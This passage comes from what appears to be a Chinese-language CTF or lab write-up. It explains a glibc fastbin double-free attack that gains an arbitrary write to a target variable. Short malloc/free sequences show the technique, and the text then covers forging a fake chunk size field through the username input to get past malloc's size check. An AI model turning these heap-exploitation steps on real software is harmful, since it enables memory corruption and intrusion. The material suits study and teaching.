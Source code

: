 如果想要构成任意地址写，可以第一次申请之后修改其中 User-Data 的第一个字处，改成一个想要写的地址；

这样之后再执行 malloc 就可以申请来任意一个地址，并且可以写内容；

![](https://static.hack1s.fun/images/2021/03/09/image-20210309135902423.png)

这里我们执行流程是

```
a=malloc(0x28);
b=malloc(0x28);

free(a);
free(b);
free(a);

malloc(0x28,p64(0xdeadbeef));

```

其中最后一次 malloc 分配的内容到了原本 chunk a 的位置，并且我们在 user data 这里填充了 0xdeadbeef

这样接下来再申请三次，第三次 malloc 的内容就会写在 0xdeadbeef 这里

我们想要修改的是 Target 变量的值，这个值在`elf.sym.user`这里，所以我们先把 shellcode 改成下面这样

```
a=malloc(0x28);
b=malloc(0x28);

free(a);
free(b);
free(a);

malloc(0x28,p64(elf.sym.user));

malloc(0x28);
malloc(0x28);
malloc(0x28,"writesomethins");

```

结果刚刚运行就直接收到 SIGNAL 中断了，查看一下出错的位置的栈帧，可以看到提示的是 Memory corruption

![](https://static.hack1s.fun/images/2021/03/09/image-20210309142858585.png)

注释写着是在检查 chunk 的 size 字段和 fastbin 申请的是否相等

看一下我们正常申请 chunk 时的结构，有一个比较重要的地方被忽略了

![](https://static.hack1s.fun/images/2021/03/09/image-20210309143322952.png)

这些地方都标识着 0x31，表示这个 chunk 大小是 0x30

而我们伪造的`elf.sym.user`那里是没有这个值的，因此需要把这个补一下；

正好这个地方是我们一开始输入 username 的地方，我们直接把 username 伪造成这样的结构就可以了
